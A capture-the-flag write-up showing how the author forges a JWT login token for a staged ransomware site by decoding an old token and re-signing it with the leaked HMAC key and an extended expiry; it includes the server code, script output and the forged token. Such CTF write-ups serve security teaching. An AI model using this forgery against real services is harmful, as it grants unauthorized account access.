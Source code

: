 <!-- HEADER -->
<div align="center">

# [\[<<\]](../Task5/) Task 6 - Gaining Access [\[>>\]](../Task7/)
![Category: Web Hacking, [redacted]](https://img.shields.io/badge/Category-Web_Hacking,_[redacted]-informational?style=flat-square)
![Points: 150](https://img.shields.io/badge/Points-150-43853D?style=flat-square)

![Task Screenshot](https://i.imgur.com/udBJCYq.png)

</div>

<!-- DESCRIPTION -->
> We've found the login page on the ransomware site, but we don't know anyone's username or password. Luckily, the file you recovered from the attacker's computer looks like it could be helpful.
> 
> Generate a new token value which will allow you to access the ransomware site.
> 
> ---
> 
> Enter a token value which will authenticate you as a user of the site.
> ```
> ```

## Files
* [provided/](provided/)
	- (empty)
* [genToken.py](genToken.py) - Generates a new token.

<!-- BREAKDOWN & SOLUTION -->
## Breakdown & Solution
In the last task we got a [Netscape HTTP cookie file](../Task5/data.txt) from the attacker's computer. Using the [server source](../TaskB2/repo/) we can reverse a way to generate a new token. Lets start by looking at [repo/app/util.py](../TaskB2/repo/app/util.py):

So what we need to target is this function:

```py
def generate_token(userName):
	""" Generate a new login token for the given user, good for 30 days"""
	with userdb() as con:
		row = con.execute("SELECT uid, secret from Accounts WHERE userName = ?", (userName,)).fetchone()
		now = datetime.now()
		exp = now + timedelta(days=30)
		claims = {'iat': now,
		          'exp': exp,
				  'uid': row[0],
				  'sec': row[1]}
		return jwt.encode(claims, hmac_key(), algorithm='HS256')
```

Okay, so we don't have access to the user database, but we do have access to the old token. With this, we can simply decode it (as its encoded in base64 or we can use [a jwt decoder](https://jwt-decoder.com/) to make it pretty) and see the main values of the token. Decoding the token, we get:

![Decoded Token](https://i.imgur.com/13SVfzO.png)

```json
{
  "typ": "JWT",
  "alg": "HS256"
}

{
  "iat": 1653336792,
  "exp": 1655928792,
  "sec": "YDGl9Or6CP22ddA7cQ9AY015S3Qnnqms",
  "uid": 28504
}
```

Since we have the HMAC key from the server, which is used to sign the token, we can simply generate a new token with the same values. We can reverse the `generate_token` function to get the values we need to generate a new token. Additionally, we can se the expiration date to a year, so we don't have to worry about it expiring.

So lets manually copy the `sec` and `uid` values to our [python script](genToken.py) and run the generation tool:

```
$ python genToken.py
{'iat': 1670586517, 'exp': 1702122517, 'uid': 28504, 'sec': 'YDGl9Or6CP22ddA7cQ9AY015S3Qnnqms'}
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NzA1ODY1MTcsImV4cCI6MTcwMjEyMjUxNywidWlkIjoyODUwNCwic2VjIjoiWURHbDlPcjZDUDIyZGRBN2NROUFZMDE1UzNRbm5xbXMifQ.MSGaHtEjZ4CltPTRcGeq3TQi1E_HOWPoEoAyyrrg3n8
```

We got a working token with a new expiration date! Lets submit `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NzA1ODY1MTcsImV4cCI6MTcwMjEyMjUxNywidWlkIjoyODUwNCwic2VjIjoiWURHbDlPcjZDUDIyZGRBN2NROUFZMDE1UzNRbm5xbXMifQ.MSGaHtEjZ4CltPTRcGeq3TQi1E_HOWPoEoAyyrrg3n8` and continue looking at the site.

![Task Screenshot](https://i.imgur.com/aULzofW.png)

> ```
> Great job! Let's see what else we can discover about the site.
> ```

<!-- TL;DR -->
## Technical TL;DR
Since we have the server source code, we know the JWT token HMAC key, which means we can generate our own key by decoding the old key and then resigning it with the new expiration date.

---

<div align="center">

[return to top](#top)

</div>